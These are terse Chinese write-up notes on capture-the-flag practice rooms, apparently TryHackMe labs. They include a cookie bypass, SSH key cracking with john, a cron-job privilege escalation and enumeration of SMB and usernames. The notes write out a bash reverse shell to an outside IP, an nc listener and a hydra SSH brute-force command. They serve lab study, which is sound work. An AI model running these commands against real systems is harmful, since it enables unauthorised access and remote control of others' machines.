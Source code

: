 目录扫描扫到admin，发现只需要cookie里增加 `SessionToken`即可

admin界面存在james用户私钥

```bash
python /usr/share/john/ssh2john.py id_rsa >id_rsa.hash

john --wordlists=/usr/share/wordlists/rockyou.txt
```



#### root

定时任务提权

![image-20230420201458994](https://gitee.com/leiye87/typora_picture/raw/master/20230420201500.png)

伪造hosts文件，变为我们的服务器

写入文件

```
bash -c 'exec bash -i &>/dev/tcp/10.18.112.117/4444 <&1'
```

kali `nc -lvnp 4444`

### RootMe

#### user

![image-20230418002809525](https://gitee.com/leiye87/typora_picture/raw/master/20230418002812.png)

dirbuster扫描http目录



### Basic Pentesting

#### user

dirbuster 枚举目录

enum4linux枚举 用户名

```
enum4linux <IP>
```

hydra 破解密码

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh
```

### Kenobi

* 枚举SMB共享
* 挂载远程
